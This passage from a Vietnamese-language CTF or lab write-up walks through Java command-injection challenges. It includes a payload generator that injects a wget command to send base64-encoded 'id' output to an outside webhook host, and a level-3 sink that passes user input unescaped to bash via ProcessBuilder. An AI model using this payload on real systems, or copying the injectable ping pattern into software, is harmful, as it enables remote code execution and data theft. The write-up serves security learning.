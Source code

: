 `String commandToInject = "xxxx; wget https://webhook.site/12df02bf-338e-46a4-bed3-363434d64f1e"; 
`

Sửa thành như này xem liệu bên webhook có nhận request hay không.

![image](https://hackmd.io/_uploads/rk4x9p26ge.png)

Thành công nhận được request đến từ server đến webhook bây giờ ta sửa một chút ở PayloadGenerate.java để nó đưa kết quả của câu lệnh `id` ra.

```java 
 public static void main(String[] args) {
        try {

            String commandToRun = "id"; // <-- BẠN CÓ THỂ THAY LỆNH Ở ĐÂY (ví dụ: "whoami", "ls -la /")

            // Lệnh đầy đủ sẽ được inject vào shell
            String commandToExfiltrate = "wget --no-check-certificate --post-data=\"$(" + commandToRun + " | base64)\" https://webhook.site/12df02bf-338e-46a4-bed3-363434d64f1e";

            // Payload cuối cùng để inject vào `ping`
            String finalPayload = "xxxx; " + commandToExfiltrate;

            System.out.println(">>> Generate Payload '" + commandToRun + "' ra webhook...");
            System.out.println(">>> Commands: " + finalPayload);
```

![image](https://hackmd.io/_uploads/S1qRnanTeg.png)

Thành công trả về giá trị sau khi của kết quả câu lệnh id ở đây mình encode thành base64 để tránh các lỗi không mong muốn.

![image](https://hackmd.io/_uploads/Hk9bpThTxg.png)

Kết quả đúng với câu lệnh kết luận ta đã thành công RCE.

### Level 3:

Với level 3 thì chức năng vẫn sẽ tương tự với các level trước nên ta đi thẳng vào phân tích source code luôn.

Phần lớn source code vẫn sẽ giống như là level 2 khác cái giờ không có readObject để lợi dụng như level 2 nữa nên ta sẽ phân tích những đoạn sink có thể khai thác được.

Sau một lúc đọc thì tôi tìm thấy sink có thể khai thác được ở class MyHTTPClient.java.

```java 
 @Override
    public void connect() throws IOException, InterruptedException {
        // Test connection
        String path = "/bin/bash";
        ProcessBuilder pb = new ProcessBuilder(path, "-c", "ping " + this.host);
        Process ping = pb.start();
        int exitCode = ping.waitFor();
        // TODO: add implement for exitCode check
    }
```
